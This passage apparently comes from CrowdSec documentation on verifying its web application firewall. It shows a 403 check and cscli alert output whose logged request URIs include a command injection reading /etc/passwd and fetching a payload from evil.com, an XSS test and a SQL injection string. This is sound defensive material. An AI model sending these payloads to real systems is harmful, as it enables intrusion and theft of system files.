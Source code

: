 Further requests to the webserver should return 403:

```bash
$ curl -I ${TARGET}
HTTP/1.1 403 Forbidden
```

## Alert Inspection

You can inspect the alert to better see what URLs or payloads triggered the rules:

```bash
# cscli  alerts list
╭──────┬────────────┬─────────────────────────────────────────┬─────────┬────┬───────────┬──────────────────────╮
│  ID  │    value   │                  reason                 │ country │ as │ decisions │      created_at      │
├──────┼────────────┼─────────────────────────────────────────┼─────────┼────┼───────────┼──────────────────────┤
│ 2172 │ Ip:xxx     │ crowdsecurity/crowdsec-appsec-outofband │         │    │ ban:1     │ 2025-08-22T09:39:50Z │
...
```

```bash
# cscli  alerts inspect -d 2172

################################################################################################

 - ID           : 2172
 - Date         : 2025-08-22T09:39:51Z
 - Machine      : 5cf8aff523424fa68e9335f28fec409aIfHabI3W9GsKHzab
 - Simulation   : false
 - Remediation  : true
 - Reason       : crowdsecurity/crowdsec-appsec-outofband
 - Events Count : 6
 - Scope:Value  : Ip:xxx
 - Country      : 
 - AS           : 
 - Begin        : 2025-08-22T09:39:50Z
 - End          : 2025-08-22T09:39:50Z
 - UUID         : a0ad365a-ef08-4c18-af80-20cc02625c35

╭─────────────────────────────────────────────────────────────────────╮
│ Active Decisions                                                    │
├──────────┬─────────────┬────────┬────────────┬──────────────────────┤
│    ID    │ scope:value │ action │ expiration │      created_at      │
├──────────┼─────────────┼────────┼────────────┼──────────────────────┤
│ 19719904 │ Ip:xxx      │ ban    │ 3h57m38s   │ 2025-08-22T09:39:51Z │
╰──────────┴─────────────┴────────┴────────────┴──────────────────────╯

 - Context  :
╭────────────┬─────────────────────────────────────────────────────╮
│     Key    │                        Value                        │
├────────────┼─────────────────────────────────────────────────────┤
│ rules      │ native_rule:901340                                  │
│ target_uri │ /?x=A";cat+/etc/passwd;wget+http://evil.com/payload │
│ target_uri │ /?x=A"<script>alert(1)</script>                     │
│ target_uri │ /?x=A"+OR+"1"="1"+union+select+"fooobar","foo       │
╰────────────┴─────────────────────────────────────────────────────╯

 - Events  :

- Date: 2025-08-22 09:39:50.326505724 +0000 UTC
╭─────────────────────┬──────────────────────────────────────────────────────────────╮
│         Key         │                             Value                            │
```